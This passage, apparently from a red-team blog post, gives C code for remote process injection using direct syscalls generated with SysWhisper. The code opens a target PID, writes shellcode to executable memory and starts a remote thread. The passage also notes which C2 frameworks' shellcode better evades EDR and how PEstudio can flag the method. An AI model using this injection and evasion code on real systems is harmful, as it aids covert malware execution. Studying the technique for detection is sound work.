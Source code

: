 
![alt text](https://media.licdn.com/dms/image/D4E12AQEoAbGb_0NYIg/article-inline_image-shrink_1500_2232/0/1692191319814?e=1716422400&v=beta&t=fHN8vLcoBDE7RPwV0E2RRSlWfGKMEquw6s7zkByAJm8)

Here is the baseline of code which utilizes the use of syscalls in this example. We also used SysWhisper2/3 to help us generate ASM/Header pair and compiled with Mingw and NASM assembler (on Windows use MASM instead). 

```c
#include <windows.h>
#include <stdio.h>
#include "syscalls.h"

int main(int argc, char* argv[]) {
    LPVOID pAddress = NULL;
    HANDLE hThread, hProcess;
    DWORD id;
	
    unsigned char payload[] = {0x8a, 0xb5, 0xaf,.....";
    SIZE_T payload_length= sizeof(payload);

    id = atoi(argv[1]);
    printf("PID: %i \n", id);  


    OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes) };
    CLIENT_ID clientId = { (HANDLE)id, NULL };
    NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &objectAttributes, &clientId);

    NtAllocateVirtualMemory(hProcess, &pAddress, 0, (SIZE_T)payload_length, MEM_COMMIT | MEM_RESERVE,  PAGE_EXECUTE_READWRITE);        

    NtWriteVirtualMemory)(hProcess, pAddress, &payload, sizeof(payload), NULL);
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, pAddress, NULL, FALSE, 0, 0, 0, NULL);
    NtClose(hProcess);
    return 0;
  }
```

## Observations

Based on various experiments, we discovered that while direct syscalls can initially evade some EDR solutions, their detection rate has increased over time due to enhanced Indicators of Compromise (IOCs) and developments in EDR technology. Our findings also show that the shellcode created by meterpreter is highly detectable, while other open-source Command and Control (C2) frameworks, such as Sliver and Havoc, have shown to be more effective at evading detection.

This method presented can be easily signatured. We can check the malicious functions using PEstudio. PEstudio is a powerful tool used for static analysis of PE files to identify potential indicators of malicious behavior and suspicious functions within executable files and DLLs. PEstudio may indicate a function or code segment as possibly harmful if it finds features often linked with malware or malicious behaviour.
